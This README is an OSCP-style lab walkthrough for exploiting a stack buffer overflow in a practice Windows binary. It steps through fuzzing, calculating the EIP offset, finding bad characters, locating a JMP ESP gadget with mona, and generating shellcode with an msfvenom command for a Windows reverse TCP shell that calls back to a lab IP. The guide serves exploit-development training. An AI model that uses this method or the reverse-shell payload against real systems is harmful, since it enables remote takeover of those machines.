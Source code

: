 # OSCP-like-buffer-overflow
OSCP-like buffer overflow

* Immunity Debugger http://www.immunityinc.com/products/debugger/
* Mona.py https://github.com/corelan/mona

To avoid the error message saying "The program can't start because VCRUNTIME140.dll is missing from your computer", make sure whether you have the x86 version of Microsoft Visual C++ Redistributable preinstalled on your Windows virtual machine.
Once we've got everything prepared, we can fire up the Immunity Debugger and open our target binary.

## 1. Fuzzing the binary
Firstly, we can run the `hello.py` script to verify whether the application responds to us (not necessary)

Then we run the `fuzzer.py` script to identify the crashing point

## 2. Calculating the offset from stack pointer
After finding the crashing point, we will calculate the offset to the EIP address. Start with generating a string with the pattern_create.rb (/usr/share/metasploit-framework/tools/exploit/pattern_create.rb)
```
ruby pattern_create.rb -l 1024
```

Use the pattern_offset
```
ruby pattern_offset.rb -q 39653138
```

## Determining Badchars
In this particular case, the vulnerable function is *sprintf* (it handles strings). Given the fact that ASCII strings are terminated with a null-byte ("\x00"), we put it at the top of the list.
The newline character is used by handleConnection() to chunk the messages we send to it. 
So the starting point for our badchars is "\n" alternatively known as "\x0A"

To be sure that we haven't missed any other we will utilize our python script `badchars.py`.

To identify badchars we can also use `!mona bytearray`

## Identifying JMP ESP gadget
After determining the badchars of the application, we will go straight to identification of the JMP ESP that will be responsible for changing the natural flow of application to run our shellcode (which we will insert into the stack).

In assembly, the OPCODE for JMP ESP is `\xff\xe4`. Using mona we will locate the register in the application that points to this OPCODE. Thanks to that, we can change the flow o the application to run our shellcode, rewriting the stack from its base (EBP).

`!mona modules` to identify the unprotected modules

`!mona find -s "\xff\xe4"` to identify which of these pointers have the OPCODE for JMP ESP

Run `!mona jmp -r esp -cpb "\x00\x0A"` to identify which pointers do not have the badchars found.

At this point we might be in possesion of the correct JMP ESP address. If we want to check, we simply run `!mona find -s "\xff\xe4" -m dostackbufferoverflowgood.exe` directly on the identified vulnerable module.

## Generating shellcode
```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.21.128 LPORT=443 EXITFUNC=thread  -f c –e x86/shikata_ga_nai -b "\x00\x0a"
```
The shellcode contains machine code for a function that invokes a shell. The goal is to copy it into the buffer variable and then overwrite the return address

`EXITFUN=thread` preventes the shellcode from crashing the application when executing our shellcode

Now we just insert the msfvenom output in our exploit.py and run it against our application to gain access to the system exploiting the Buffer Overflow
